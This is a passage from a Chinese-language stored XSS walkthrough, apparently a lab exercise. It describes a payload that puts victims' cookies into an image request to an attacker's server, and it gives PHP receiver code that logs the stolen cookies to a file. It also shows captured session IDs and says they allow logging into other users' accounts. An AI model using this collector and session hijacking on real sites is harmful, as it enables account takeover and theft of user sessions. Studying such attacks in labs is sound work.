 3. payload提交后<span data-type="text" style="color: var(--b3-font-color9);">javascript脚本操纵DOM对象写入img标签</span>，并且标签的url中拼接了用户的cookie值，当浏览器渲染页面时就会<span data-type="text" style="color: var(--b3-font-color9);">GET形式</span>请求图片资源，并将<span data-type="text" style="color: var(--b3-font-color9);">cookie值</span>携带到攻击者服务器。

    ​![image](assets/image-20240912184253-mku50di.png)​

4. 在攻击者服务器需要提供和payload路径对应的url给请求端访问，攻击者服务器获取GET中的cookie存储到文本文件中。

    ```top
    <?php //攻击端，用于接收被攻击端请求的信息
    $cookie = $_GET['cookie']; //获取cookie信息
    $log =  fopen('cookie.txt','a'); //生成获取的cookie信息，打开文件，a是追加写模式
    fwrite($log,$cookie.PHP_EOL); //fwrite写入
    fclose($log);
    ?>
    ```

5. 查看文本文件，两个payload所请求的cookie。​

    ![image](assets/image-20240912184050-4fpzsa7.png)​

    经过编码的cookie经过base64和URL解码如下

    ```bash
    name=ichunqiu; PHPSESSID=1iadqpfqbcrjqjfamfdmjchn2t; _ga_P1JF3QTQ79=GS1.1.1726128058.2.0.1726128058.0.0.0
    ```
6. 当其他用户访问该网页

    攻击者端生成如下cookie

    ​![image](assets/image-20240912185609-5b80133.png)​
7. 编码的cookie经过base64和URL解码如下

    PHPSESSID=8mf3m5s9h457dlnqfjdmdi5st8
8. 利用该cookie可以通过工具实现不用账号密码登录他人账户。
